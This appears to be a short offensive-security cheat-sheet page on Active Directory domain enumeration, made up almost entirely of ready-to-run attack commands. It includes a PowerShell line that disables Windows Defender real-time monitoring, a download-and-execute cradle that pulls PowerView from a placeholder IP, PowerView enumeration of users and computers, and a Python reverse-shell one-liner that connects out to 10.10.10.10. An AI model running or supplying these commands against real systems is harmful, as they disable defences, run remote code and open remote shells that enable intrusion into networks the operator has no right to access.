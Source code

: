```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE


# ACTIVE DIRECTORY


### DOMAIN ENUMERATION
 # Patch AMSI or disable AV
```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_DeV.ps1')
```
 <br>

```powershell
      Get-NetUsers | select samaccountname > username.txt
      
      # Get all the computers in the domain
      Get-NetComputer

      # Get information about specific computer
      Get-NetComputer -Identity <computer_name>
```



```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
